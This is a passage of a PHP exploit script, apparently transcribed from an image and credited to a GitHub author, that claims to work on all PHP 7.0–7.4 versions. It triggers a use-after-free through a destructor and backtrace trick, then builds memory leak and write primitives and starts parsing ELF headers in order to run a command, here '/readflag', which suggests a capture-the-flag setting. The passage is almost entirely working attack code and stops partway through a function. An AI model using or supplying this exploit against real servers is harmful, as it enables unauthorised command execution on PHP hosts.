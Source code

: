 ```php
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("/readflag");

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
```